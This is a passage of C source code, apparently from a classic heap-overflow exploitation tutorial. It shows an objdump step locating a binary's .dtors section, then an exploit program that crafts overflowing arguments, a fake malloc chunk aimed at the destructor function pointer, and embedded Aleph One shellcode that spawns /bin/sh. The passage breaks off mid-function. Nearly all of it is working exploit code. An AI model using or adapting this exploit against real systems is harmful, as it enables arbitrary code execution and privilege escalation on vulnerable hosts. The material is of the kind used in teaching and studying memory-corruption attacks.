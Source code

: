 </PRE>
```c
$ objdump -j .dtors -s vulnerable | grep ffffffff
 80495a8 ffffffff 00000000                    ........

$ set -o noclobber && cat > exploit.c << EOF
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define FUNCTION_POINTER ( 0x80495a8 + 4 )

#define VULNERABLE "./vulnerable"
#define FAKE_CHUNK ( (0xc0000000 - 4) - sizeof(VULNERABLE) - (16 + 1) )
#define DUMMY 0xeffaced

char shellcode[] =
        /* the Aleph One shellcode */
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh"
        /* the jump instruction */
        "\xeb\xd1p";

int main( void )
{
        char * p;
        char argv1[ 676 + 1 ];
        char argv2[ 52 ];
        char fake_chunk[ 16 + 1 ];
        size_t size;
        char ** envp;
        char * argv[] = { VULNERABLE, argv1, argv2, NULL };

        p = argv1;
        /* the padding */
        memset( p, 'B', 676 - 4 );
        p += 676 - 4;
        /* the fd field of the fifth chunk */
        *( (void **)p ) = (void *)( FAKE_CHUNK );
        p += 4;
        /* the terminating NUL character */
        *p = '\0';

        p = argv2;
        /* the padding */
        memset( p, 'B', 52 - sizeof(shellcode) );
        p += 52 - sizeof(shellcode);
        /* the special shellcode */
        memcpy( p, shellcode, sizeof(shellcode) );

        p = fake_chunk;
        /* the prev_size field of the fake chunk */
        *( (size_t *)p ) = (size_t)( DUMMY );
        p += 4;
        /* the size field of the fake chunk */
        *( (size_t *)p ) = (size_t)( 0 );
        p += 4;
        /* the fd field of the fake chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk field of the fake chunk */
        *( (void **)p ) = (void *)( FUNCTION_POINTER - 8 );
        p += 4;
```